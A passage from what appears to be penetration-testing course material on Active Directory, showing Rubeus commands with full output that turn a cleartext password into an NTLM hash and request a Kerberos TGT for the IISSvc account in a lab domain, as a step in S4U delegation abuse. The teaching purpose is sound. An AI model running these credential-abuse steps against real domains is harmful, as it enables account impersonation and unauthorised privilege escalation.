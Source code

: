We'll once again turn to Rubeus, which includes S4U extension support.

_Kekeo_[4](https://portal.offsec.com/courses/pen-300-9502/learning/active-directory-exploitation-14684/active-directory-exploitation-14915#fn-local_id_637-4) by Mimikatz author Benjamin Delphy also provides access to S4U extension abuse.

Note that we do not need to execute in the context of the _IISSvc_ account in order to exploit the account. We only need the password hash. However, if we only have the clear text password, we can use the hash command in Rubeus to generate the NTLM hash as shown below:

```
PS C:\Tools> .\Rubeus.exe hash /password:lab
...

[*] Action: Calculate Password Hash(es)

[*] Input password             : lab
[*]       rc4_hmac             : 2892D26CDF84D7A70E2EB3B9F05C425E

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

> Listing 29 - Generating NTLM hash from password

Next, we'll use Rubeus to generate a TGT for _IISSvc_ with the asktgt command by supplying the username (/user), domain (/domain), and NTLM hash (/rc4):

```
PS C:\Tools> .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
...

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 2892D26CDF84D7A70E2EB3B9F05C425E
[*] Building AS-REQ (w/ preauth) for: 'prod.corp1.com\iissvc'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE+jCCBPagAwIBBaEDAgEWooIECzCCBAdhggQDMIID/6A...

  ServiceName           :  krbtgt/prod.corp1.com
  ServiceRealm          :  PROD.CORP1.COM
  UserName              :  iissvc
  UserRealm             :  PROD.CORP1.COM
  StartTime             :  4/14/2020 7:48:16 AM
  EndTime               :  4/14/2020 5:48:16 PM
  RenewTill             :  4/21/2020 7:48:16 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  LfbSfF81qk+oMed+zvLoZg==
```

> Listing 30 - Requesting TGT for IISSvc
